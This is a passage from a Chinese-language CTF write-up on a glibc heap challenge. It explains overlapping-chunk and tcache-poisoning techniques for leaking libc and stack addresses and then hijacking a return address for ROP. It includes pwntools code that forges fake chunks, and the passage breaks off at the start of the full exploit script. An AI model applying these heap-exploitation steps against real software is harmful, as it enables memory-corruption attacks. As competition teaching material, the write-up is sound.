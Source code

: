   根据计算机基础知识，我们知道环境变量就是**main**的第三个参数，即位于栈上分布。因此，如果我们已经获取了glibc的基址，则我们可以将**tcache**链指向**lib_base + lib.sym['environ']**。然后会获取一个指针数组，其每一个元素都指向栈上某个位置。如果我们打印内存上的数据，也就获取了栈上的相关信息。

  后面就非常好利用了——如果有了栈信息，则通过栈上存储的返回地址，我们可以轻易的获取代码段地址；有了代码段地址，则我们通过覆写栈上返回地址，可以控制执行流


## 题解和关键说明

  首先，需要通过前面分析过的堆叠加，从而在大小受限的情况下，将可控的内存释放到**unsorted bin**中，命令如下所示
  ```python
	for i in range(12):
		wp_add(r, i, 0x50)	#base + 0x60 * i
	
	#fake chunk: base + 0x20
	wp_delete(r, 1)
	wp_delete(r, 0)
	wp_show(r, 0)
	chunk_base = u64(r.recv(6).ljust(8, '\x00')) - 0x60 - 0x10
	log.info('chunk_base => %#x'%(chunk_base))
	wp_edit(r, 11, p64(0) * 2 + p64(0) + p64(0x21) + p64(0) * 2 + p64(0) + p64(0x21))
	wp_edit(r, 0, p64(chunk_base + 0x30) + p64(0) + p64(0) + p64(0x421) + p64(0))
```
  一方面，在序号为0的内存中构造了fake chunk的chunk头信息；另一方面，在序号为11的内存中完成上下文的构建(**用来释放时绕过检查**)。此时，其内存布局如下所示
  ![K1ng_in_h3Ap_II内存布局1](K1ng_in_h3Ap_II内存布局1.PNG)

  此时，我们已经将伪造的非**tcache bin**范围内的内存块插入到**tcache**链中。此时，只需要申请到该内存，然后在释放，则可以将该可控的内存块释放入**unsorted bin**中，相当于我们获取了glibc基址。

  那么，接下来就非常简单了——我们通过**UAF**，直接将**lib_base + p64(lib.sym['environ'])**插入到**tcache**链中，然后打印，即可获取栈的相关位置。

  在获取栈位置后，通过偏移计算，可以获取指定的栈帧，那么将该栈帧作为**fake chunk**，向该**fake chunk**写入数据，则相当于更改栈帧数据，也就是可以更改函数返回地址，则可以使用rop(这里最好选择edit函数的栈帧——对于其他函数栈帧，其先通过调用edit函数覆盖栈帧，然后再到指定函数被调用过程中，栈帧可能被其他函数栈帧再次覆盖)


  最后，完整的wp如下所示
  ```python
#!/usr/bin/python2
# -*- coding:utf-8 -*-
from pwn import *
import sys
import platform

'''
	待修改数据
'''
context.log_level = 'debug'
context.arch = 'amd64'				# 32位使用i386
context.os = 'linux'

execve_file = './pwn'
lib_file = './libc.so.6'
argv = []



'''
	elf.plt[`symbol`] 获取elf文件中导入符号的plt地址
	elf.got[`symbol`] 获取elf文件中导入符号的got地址
	elf.sym['symbol'] 获取elf文件中本地符号的函数实际地址
'''
if execve_file != None:
	elf = ELF(execve_file)

'''
	lib.sym[`symbol`] 获取lib中符号地址
	lib.search['string'].next() 获取lib中字符串地址
  ```